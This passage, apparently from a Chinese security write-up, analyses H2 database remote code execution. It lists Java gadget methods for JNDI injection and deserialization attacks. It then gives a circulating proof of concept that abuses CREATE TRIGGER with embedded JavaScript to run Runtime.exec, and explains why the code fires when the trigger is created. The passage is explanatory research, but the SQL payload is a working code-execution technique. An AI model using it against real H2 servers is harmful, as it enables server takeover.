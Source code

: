 当然还有其他静态方法可以利用，比如

* `java.sql.DriverManager#getConnection` 连接恶意MySQL服务器
* `javax.naming.InitialContext#doLookup` JNDI注入
* `com.alibaba.fastjson.JSON#parseObject` FastJson反序列化
* `org.springframework.util.SerializationUtils.deserialize` 二次反序列化

咳咳，扯远了，继续回到H2 RCE。

## js执行

* `CREATE TRIGGER`

这个命令稍微麻烦一点，利用的是触发器，即增删改时会触发一些动作，需要新建一张表，或者需要有已知表。

下面上网上流传的poc

```sql
CREATE TABLE hack (
     id INT NOT NULL
);

CREATE TRIGGER TRIG_JS AFTER INSERT ON hack AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc");';
 
INSERT INTO hack VALUES (1);
```

但实际上创建触发器时那段js代码就被执行了，后面插入数据也没有执行

好在这句创建触发器的语句可以多次执行(因为根本没创建成功)

为什么呢？因为这段js代码本意是用来返回一个`Trigger`对象的

查看官方文档https://www.h2database.com/html/commands.html#create_trigger

> The trigger class must be public and implement `org.h2.api.Trigger`. Inner classes are not supported. The class must be available in the classpath of the database engine (when using the server mode, it must be in the classpath of the server).
>
> The sourceCodeString must define a single method with no parameters that returns `org.h2.api.Trigger`. See `CREATE ALIAS` for requirements regarding the compilation. Alternatively, javax.script.ScriptEngineManager can be used to create an instance of `org.h2.api.Trigger`. Currently javascript (included in every `JRE`) and ruby (with `JRuby`) are supported. In that case the source must begin respectively with `//javascript` or `#ruby`.
>
> Example:
>
> CREATE TRIGGER TRIG_INS BEFORE INSERT ON TEST FOR EACH ROW CALL 'MyTrigger';
>
> CREATE TRIGGER TRIG_SRC BEFORE INSERT ON TEST AS
>   'org.h2.api.Trigger create() { return new MyTrigger("constructorParam"); }';
>
> CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
> return new Packages.MyTrigger("constructorParam");';
>
> CREATE TRIGGER TRIG_RUBY BEFORE INSERT ON TEST AS '#ruby
> Java::MyPackage::MyTrigger.new("constructorParam")';

